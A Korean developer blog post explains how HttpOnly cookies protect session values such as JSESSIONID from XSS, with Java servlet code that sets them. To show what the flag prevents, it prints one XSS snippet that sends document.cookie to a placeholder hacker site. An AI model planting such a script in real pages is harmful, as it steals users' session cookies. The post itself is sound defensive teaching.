 ```yaml
---
layout:     post
title:      "[CS] HTTP Only Cookie 사용하기"
subtitle:   "\"Use HTTP Only Cookie\""
date:       2024-04-11 19:00:00
author:     JacksonJang
post_assets: "/assets/posts/2024-04-11"
catalog: true
categories:
    - CS
tags:
    - Frontend
    - Backend
    - CS
---
```

> HttpOnly를 사용하면, XSS 공격을 예방할 수 있습니다.

우리가 인터넷을 사용하다 보면 HTTP 및 HTTPS 통신을 자주 하게 됩니다.
그러다 보면 로그인이나 상품을 구매할 수도 있고 다양한 활동들을 하게 되는데, 이때 사용되는 것이 **쿠키**입니다.

### 쿠키(Cookie)
**쿠키(Cookie)**는 세션 및 기타 정보를 관리하기 위해 사용합니다.
이런 쿠키가 존재하는 이유는 사용자의 유효성 검사를 위해서 주로 사용되는데, 톰캣을 사용한다면 주로 볼 수 있는 쿠키는 **JSESSIONID** 입니다.

> JSESSIONID : 톰캣 컨테이너에서 세션을 유지하기 위해 발급하는 키

## HTTP Only
<img width="600px" src="{{ page.post_assets }}/httpOnly_noneHttpOnly.png" />
<br />
위 사진처럼 httpOnly는 HttpOnly에 체크되어 있고, noneHttpOnly는 HttpOnly가 체크되어 있지 않습니다.

<img width="600px" src="{{ page.post_assets }}/console.png" />
위 사진은 `document.cookie`를 했을 때, 나온 결과 화면입니다.
<br />
보이는 대로 HttpOnly로 설정된 쿠키는 javascript에서 노출되지 않습니다.(단, 개발자 도구를 통해서는 볼 수 있습니다.)

따라서, 다음과 같은 XSS 공격을 통해 해커가 쿠키 값을 가져올 수 없습니다.
```js
<script> 
location.href = '해커사이트주소?cookie=' + document.cookie 
</script>
```

## Java 서버에서 처리
```java
 public Map index(HttpServletRequest request, HttpServletResponse response) {
    Map<String, Object> map = new HashMap();

    Cookie noneHttpOnly = new Cookie("noneHttpOnly", "test");
    Cookie httpOnly = new Cookie("httpOnly", "test");
    httpOnly.setHttpOnly(true);
    response.addCookie(noneHttpOnly);
    response.addCookie(httpOnly);

    map.put("cookie", request.getCookies());

    return map;
}
```
위와 같은 방식으로 `noneHttpOnly` 쿠키와 `httpOnly` 쿠키를 추가했습니다.

## github 예시
[https://github.com/JacksonJang/httpOnlyExample.git](https://github.com/JacksonJang/httpOnlyExample.git)
